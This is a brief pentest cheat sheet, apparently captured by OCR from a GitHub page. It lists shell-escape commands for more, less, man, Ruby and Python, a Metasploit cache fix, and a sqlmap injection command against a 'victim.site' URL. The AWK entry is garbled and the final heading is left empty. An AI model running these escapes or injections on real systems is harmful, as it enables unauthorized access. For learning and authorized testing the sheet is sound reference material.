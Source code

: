 ## (More/Less/Man Method)
```
Type more, less, or man command with a file then try one of the following:
'! /bin/sh'
'!/bin/sh'
'!bash'
```
## (AWK Method)
```
a
```
## (Other Methods)
```
irb(main:001:0> exec "/bin/sh"
python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
also try the shell spawning methods above
```
## Metasploit Slow Search Fix
```
db_rebuild_cache
```
## SQLMap
```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```
## How to replicate to gain access again:

